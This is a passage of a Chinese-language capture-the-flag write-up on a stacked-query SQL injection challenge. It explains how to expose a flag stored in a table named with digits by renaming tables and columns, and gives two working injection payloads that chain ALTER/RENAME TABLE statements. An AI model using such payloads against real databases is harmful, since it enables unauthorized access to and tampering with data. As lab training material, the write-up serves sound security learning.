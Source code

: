 <img src="../../../../img/duidie5.png" style="zoom: 80%;" />

> 注意：数字作为表名的话，需要加反引号``



到这一步为止，`show`不能再查看1919810931114514的数据了。



这里有两种方法来查看`1919810931114514`的数据

1. 修改`1919810931114514`为`words`表，字段再对应。把`words`表改成其他名字。这样客户端取数据的时候就取的flag数据了。
2. 预编译。这里不阐述，[点击](https://blog.csdn.net/chuxuezheerer/article/details/104219527)



这里只讲讲1方法：	

​	这里我们将`1919810931114514`改为`words`表，字段对应。把`words`表改成其他名字

```
1';alter table words rename to wordss;alter table `1919810931114514` rename to words; alter table words change flag id varchar(255);%23
```

> 不行的话试试这个payload
>
> ```
> 1';rename tables words to words1;rename tables `1919810931114514` to words; alter table words change flag id varchar(100);#
> ```
